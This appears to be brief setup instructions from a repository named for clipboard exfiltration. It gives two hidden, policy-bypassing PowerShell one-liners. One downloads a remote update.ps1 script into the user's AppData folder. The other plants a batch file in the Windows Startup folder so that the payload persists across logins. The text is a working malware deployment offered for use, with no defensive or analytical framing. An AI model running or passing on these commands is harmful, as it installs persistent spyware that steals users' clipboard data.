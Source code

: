 Save update.ps1 to $env:userprofile\AppData\Roaming 

    powershell -w h -NoP -NonI -Ep Bypass 'Invoke-WebRequest -Uri "https://raw.githubusercontent.com/offport/ClipbpardExfiltration/main/update.ps1" -OutFile "$env:userprofile\AppData\Roaming\update.ps1" -UseBasicParsing'

Then save the bat file into startup programs

    powershell -w h -NoP -NonI -Ep Bypass 'Invoke-WebRequest -Uri "https://raw.githubusercontent.com/offport/ClipbpardExfiltration/main/per.bat" -OutFile "$env:APPDATA\Microsoft\Windows\Start` Menu\Programs\Startup\per.bat" -UseBasicParsing'
